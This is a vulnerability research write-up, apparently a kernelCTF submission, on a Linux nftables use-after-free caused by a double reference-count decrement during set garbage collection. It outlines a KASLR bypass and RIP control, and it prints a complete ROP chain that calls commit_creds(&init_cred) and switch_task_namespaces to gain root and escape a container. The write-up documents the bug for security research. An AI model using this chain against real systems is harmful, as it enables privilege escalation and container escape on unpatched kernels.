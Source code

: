 # Overview

This vulnerability was discovered by Kevin Rich, and his write-up targeting the LTS kernel can be found [here](https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2023-0193_lts).

The vulnerability is caused by not validating whether the set is deleted or not when performing GC on set elements. First, deleting the set calls the `nft_delset` function, which decrements the reference count of objects mapped to the set elements in the `nft_map_deactivate` function [1].

```c
static int nft_delset(const struct nft_ctx *ctx, struct nft_set *set)
{
    int err;

    err = nft_trans_set_add(ctx, NFT_MSG_DELSET, set);
    if (err < 0)
        return err;

    if (set->flags & (NFT_SET_MAP | NFT_SET_OBJECT))
        nft_map_deactivate(ctx, set);								// [1]

    nft_deactivate_next(ctx->net, set);
    nft_use_dec(&ctx->table->use);

    return err;
}
```

Then, during the GC process, the `nft_trans_gc_catchall_sync` function is called, and the reference count of the object mapped to the element is decremented once more in the `nft_setelem_data_deactivate` function [2].

```c
struct nft_trans_gc *nft_trans_gc_catchall_sync(struct nft_trans_gc *gc)
{
    struct nft_set_elem_catchall *catchall, *next;
    const struct nft_set *set = gc->set;
    struct nft_set_elem elem;
    struct nft_set_ext *ext;

    WARN_ON_ONCE(!lockdep_commit_lock_is_held(gc->net));

    list_for_each_entry_safe(catchall, next, &set->catchall_list, list) {
        ext = nft_set_elem_ext(set, catchall->elem);

        if (!nft_set_elem_expired(ext))
            continue;

        gc = nft_trans_gc_queue_sync(gc, GFP_KERNEL);
        if (!gc)
            return NULL;

        memset(&elem, 0, sizeof(elem));
        elem.priv = catchall->elem;

        nft_setelem_data_deactivate(gc->net, gc->set, &elem);			// [2]
        nft_setelem_catchall_destroy(catchall);
        nft_trans_gc_elem_add(gc, elem.priv);
    }

    return gc;
}
```

# KASLR Bypass and Information Leak

To bypass KASLR, I used a timing side channel attack to leak the kernel base, and created a fake ops in the non-randomized CPU entry area (CVE-2023-0597) without leaking the heap address.

# RIP Control

```c
struct nft_chain {
	struct nft_rule_blob		__rcu *blob_gen_0;
	struct nft_rule_blob		__rcu *blob_gen_1;
	struct list_head		rules;
	struct list_head		list;
	struct rhlist_head		rhlhead;
	struct nft_table		*table;
	u64				handle;
	u32				use;
	u8				flags:5,
					bound:1,
					genmask:2;
	char				*name;
	u16				udlen;
	u8				*udata;

	/* Only used during control plane commit phase: */
	struct nft_rule_blob		*blob_next;
};
```

When the vulnerability is triggered, the freed `chain->blob_gen_0` can be accessed via `immediate expr`.

```c
unsigned int
nft_do_chain(struct nft_pktinfo *pkt, void *priv)
{
	...
do_chain:
	if (genbit)
		blob = rcu_dereference(chain->blob_gen_1);
	else
		blob = rcu_dereference(chain->blob_gen_0);

	rule = (struct nft_rule_dp *)blob->data;
	last_rule = (void *)blob->data + blob->size;
next_rule:
	regs.verdict.code = NFT_CONTINUE;
	for (; rule < last_rule; rule = nft_rule_next(rule)) {
		nft_rule_dp_for_each_expr(expr, last, rule) {
			if (expr->ops == &nft_cmp_fast_ops)
				nft_cmp_fast_eval(expr, &regs);
			else if (expr->ops == &nft_cmp16_fast_ops)
				nft_cmp16_fast_eval(expr, &regs);
			else if (expr->ops == &nft_bitwise_fast_ops)
				nft_bitwise_fast_eval(expr, &regs);
			else if (expr->ops != &nft_payload_fast_ops ||
				 !nft_payload_fast_eval(expr, &regs, pkt))
				expr_call_ops_eval(expr, &regs, pkt);

			if (regs.verdict.code != NFT_CONTINUE)
				break;
		}
```

```c
static void expr_call_ops_eval(const struct nft_expr *expr,
			       struct nft_regs *regs,
			       struct nft_pktinfo *pkt)
{
#ifdef CONFIG_RETPOLINE
	unsigned long e = (unsigned long)expr->ops->eval;
#define X(e, fun) \
	do { if ((e) == (unsigned long)(fun)) \
		return fun(expr, regs, pkt); } while (0)

	X(e, nft_payload_eval);
	X(e, nft_cmp_eval);
	X(e, nft_counter_eval);
	X(e, nft_meta_get_eval);
	X(e, nft_lookup_eval);
	X(e, nft_range_eval);
	X(e, nft_immediate_eval);
	X(e, nft_byteorder_eval);
	X(e, nft_dynset_eval);
	X(e, nft_rt_get_eval);
	X(e, nft_bitwise_eval);
#undef  X
#endif /* CONFIG_RETPOLINE */
	expr->ops->eval(expr, regs, pkt);
}
```

`chain->blob_gen_0` is used in `nft_do_chain`, and `expr->ops->eval` is called to evaluate the expression in `expr_call_ops_eval`. We set the ops of the fake expr to the CPU entry area to control the RIP and allocate the fake blob object larger than 0x2000 to use page allocator.

# Post-RIP

The ROP payload is stored in `chain->blob_gen_0` which is allocated by page allocator.

```c
void rop_chain(uint64_t* data){
    int i = 0;

    data[i++] = 0x100;
    data[i++] = 0x100;
    data[i++] = PAYLOAD_LOCATION(1) + offsetof(struct cpu_entry_area_payload, nft_expr_eval);

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = getpid();
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = RCU_READ_LOCK_NESTING_OFF;
    data[i++] = kbase + ADD_RAX_RSI_RET;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + POP_RCX_RET;
    data[i++] = 0;
    data[i++] = kbase + MOV_RAX_RCX_RET;

    // Bypass "schedule while atomic": set oops_in_progress = 1
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + OOPS_IN_PROGRESS;
    data[i++] = kbase + MOV_RSI_RDI_RET;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    data[i++] = kbase + POP_RSI_RET;
    data[i++] = 0;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    data[i++] = kbase + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```